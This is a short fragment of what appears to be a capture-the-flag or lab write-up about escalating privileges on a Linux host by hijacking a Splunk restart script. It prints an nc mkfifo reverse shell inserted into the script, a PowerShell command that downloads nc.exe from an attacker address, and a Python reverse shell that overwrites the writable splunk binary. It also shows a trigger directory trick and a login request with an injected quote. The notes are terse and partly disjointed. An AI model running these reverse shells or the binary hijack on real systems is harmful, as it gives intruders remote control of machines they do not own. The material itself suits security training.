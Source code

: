 ```shell



if [[ ! -z "$splunk_err" ]]; then

    restart_splunk=1

    echo "$(date +"%y/%m/%d-%H:%M") - Believe Splunk is unresponsive, restarting" >> /root/splunk.log

    fi



for bad_app in $(find $splunk_home -name terminal.xml | awk -F\/ '{print $(NF-5)}'); do

    if pgrep -x "splunkd" > /dev/null; then

        $splunk_home/bin/splunk stop

        fi
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.248 1003 >/tmp/f
    $splunk_home/bin/splunk remove app $bad_app

    echo "$(date +"%y/%m/%d-%H:%M") - Terminal.xml found, removing app $bad_app" >> /root/splunk.log

    restart_splunk=1

    done



if [ "$restart_splunk" -eq "1" ]; then

    $splunk_home/bin/splunk restart

    fi
```
the `$splunk_home/bin/splunk` is writeable by mark so i changed that shell with python rev shell so, when the ippsecs script run it will call it and i will have revshell
### Gaining Access
```shell
powershell -c iwr http://10.10.14.2/nc.exe -outfile nc.exe
(remote) mark@NIX01:/$ cat /opt/splunk/bin/splunk
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",2202));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
(remote) mark@NIX01:/$ ls -la /opt/splunk/bin/splunk
-rwx--x--- 1 mark mark 226 Jul  2 15:52 /opt/splunk/bin/splunk

mkdir -p /opt/splunk/test1/test2/test3/test4/test5/terminal.xml

```
![](https://i.imgur.com/DO64BPq.png)
![](https://i.imgur.com/hIew9k1.png)
![](https://i.imgur.com/FsTwK4a.png)
`j_username=admin%27&j_password=644c9c39f63813fc`
![](https://i.imgur.com/MdgLG9w.png)
- The previous one is not working